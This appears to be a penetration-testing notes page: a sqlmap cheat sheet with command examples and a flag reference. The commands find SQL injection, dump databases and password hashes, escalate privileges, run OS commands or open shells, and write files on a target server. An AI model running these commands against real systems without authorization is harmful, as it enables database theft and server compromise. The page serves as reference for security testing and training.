 # SQLmap

{% hint style="info" %}
**sqlmap** goal is to detect and take advantage of **SQL injection vulnerabilities** in web applications. Once it detects one or more SQL injections on the target host, the user can choose among a variety of options to perform an extensive back-end database management system **fingerprint**, **retrieve** DBMS **session** user and database, **enumerate** users, password hashes, privileges, databases, dump entire or user’s specific DBMS tables/columns, run his own SQL statement, read specific files on the file system and more.
{% endhint %}

{% embed url="https://thedarksource.com/sqlmap-cheat-sheet" %}
SQLMap cheatsheet
{% endembed %}

### Dumping tables

{% embed url="https://rnehra01.github.io/Dumping-tables-using-sqlmap" %}

### Examples

* Target the _http://target.server.com_ URL using the **-u** flag:

```bash
sqlmap -u 'http://target.server.com'
```

* Specify POST requests by specifying the **-data** flag:

```bash
sqlmap -u "http://10.10.155.76/login.php" -method "POST" -data "log_email=cun@gmail.com&log_password=123456&login_button=Login" --dbs
```

* Target a vulnerable parameter in an authenticated session by specifying cookies using the **-cookie** flag:

```bash
sqlmap -u 'http://target.server.com' --cookie='JSESSIONID=09h76qoWC559GH1K7D- SQHx'
```

* Drop all Set-Cookie requests from the target web server using the **-drop-set-cookie** flag:

```bash
sqlmap -u 'http://target.server.com' -r req.txt --drop-set-cookie
```

* Perform in-depth and risky attacks using the **-level** and **-risk** flags:

```bash
sqlmap -u 'http://target.server.com' --data='param1=blah' --level=5 --risk=3
```

* Specify which POST or GET parameter to target using the **-p** flag:

```bash
sqlmap -u 'http://target.server.com' --data='param1=blah&param2=blah' -p param1
```

* Choose a random User-Agent request header using the **–random-agent** flag:

```bash
sqlmap -u 'http://target.server.com' -r req.txt --random-agent
```

* Target a certain database service using the **–dbms** flag:

```bash
sqlmap -u 'http://target.server.com' -r req.txt --dbms Oracle
```

* Read a request (stored via Burpsuite) target the user parameter (and no other parameters), run risky queries, and dump users and passwords:

```bash
sqlmap -r ./req.txt -p user --level=1 --risk=3 --passwords
```

* Attempt privilege escalation on the target database

```bash
sqlmap -r ./req.txt --level=1 --risk=3 --privesc
Run the “whoami” command on the target server.
sqlmap -r ./req.txt --level=1 --risk=3 --os-cmd=whoami
```

Dump everything in the database, but wait one second in-between requests.

```bash
sqlmap -r ./req.txt --level=1 --risk=3 --dump --delay=1
```

### Post-Exploit

* Error-Based SQLi, dump all data from a MSSQL Database :

```bash
sqlmap -r req --technique=E -U <user> --level 5 --risk 3 --tamper=space2comment --dbms=MSSQL -D <db> --dump
```

### Flags

_Here are some useful options for your pillaging pleasure:_&#x20;

`-r req.txt` Specify a request stored in a text file, great for saved requests from BurpSuite.&#x20;

`--force-ssl` Force SQLmap to use SSL or TLS for its requests.&#x20;

`--level=1` only test against the specified parameter, ignore all others.&#x20;

`--risk=3` Run all exploit attempts, even the dangerous ones (could damage database).&#x20;

`--delay` Set a delay in-between requests, great for throttled connections.&#x20;

`--proxy` Set to http://127.0.0.1:8080 to pipe requests through BurpSuite for inspection.&#x20;

`--privesc` Attempt to elevate the privileges of the database service account.&#x20;

`--all` Enumerate everything inside the target database.&#x20;

`--hostname` Print the target database’s hostname.&#x20;

`--passwords` Find and exfiltrate all users and their password hashes or digests.&#x20;

`--dbs` Enumerate all databases accessible via the target webserver.&#x20;

`--comments` Enumerate all found comments inside the database.&#x20;

`--sql-shell` Return a SQL prompt for interaction.&#x20;

`--os-cmd` Attempt to execute a system command.&#x20;

`--os-shell` Attempt to return a command prompt or terminal for interaction.&#x20;

`--reg-read` Read the specified Windows registry key value.&#x20;

`--file-write` Specify a local file to be written to the target server.&#x20;

`--file-dest` Specify the remote destination to write a file to.&#x20;



`--technique=` Specify a letter or letters of BEUSTQ to control the exploit attempts:

* `B` : Boolean-based blind
* `E` : Error-based
* `U` : Union query-based&#x20;
* `S` : Stacked queries&#x20;
* `T` : Time-based blind&#x20;
* `Q` : Inline queries
